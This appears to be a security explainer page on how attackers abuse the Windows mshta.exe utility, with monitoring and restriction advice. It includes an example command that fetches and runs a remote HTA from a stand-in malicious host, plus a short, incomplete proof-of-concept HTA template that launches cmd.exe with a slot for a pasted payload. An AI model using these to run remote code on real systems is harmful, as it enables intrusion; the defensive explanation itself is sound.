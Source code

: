 ### JScript

`mshta.exe` is a legitimate Windows utility used to execute Microsoft HTML Application (HTA) files. HTA files are essentially HTML documents that have the `.hta` file extension and can run JavaScript, VBScript, or other scripting languages in a standalone window without the restrictions typically placed on scripts running within a web browser.

#### Common Uses of `mshta.exe`
- **Executing HTA Files**: The primary purpose of `mshta.exe` is to open and run HTA files.
- **Running Inline Scripts**: It can also be used to execute scripts directly from the command line.
- **Embedding in HTML**: Often used to create interactive web applications with a greater degree of control over the user interface and system resources than is typically available through standard web pages.

#### Syntax
```sh
mshta.exe <path_to_htafile>
```
Or to execute inline scripts:
```sh
mshta.exe vbscript:Execute("MsgBox(\"Hello World\")")
```

#### Security Considerations
While `mshta.exe` is a legitimate tool, it can be abused by attackers to run malicious scripts. This makes it a common vector for malware and other malicious activities. 

#### Examples of Abuse
- **Running Malicious Scripts**: Attackers can use `mshta.exe` to execute malicious JavaScript or VBScript directly from the command line or via a malicious HTA file.
- **Bypassing Security Measures**: Due to its legitimate nature, `mshta.exe` can sometimes bypass security software that might block more obvious malicious executables.

#### Example of Malicious Use
An attacker might craft a command to download and execute a malicious script:
```sh
mshta.exe "http://malicious.website/malicious.hta"
```

#### Mitigation and Defense
- **Monitoring**: Keep an eye on the execution of `mshta.exe` on endpoints. It is unusual for most users to execute HTA files frequently.
- **Restrict Execution**: Implement policies to restrict the use of `mshta.exe` if it is not required in your environment.
- **Endpoint Protection**: Use endpoint protection solutions that can detect and block the execution of suspicious scripts and HTA files.

By understanding `mshta.exe` and its potential for abuse, you can better protect your systems from associated threats.


#### POC
```js
<html> 
<head> 
<script language="JScript">
<!--- PASTE JSCRIPT PAYLOAD BELOW --->
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
<!--- PASTE JSCRIPT ABOVE--->
</script>
</head> 
<body>
<script language="JScript">
self.close();
```
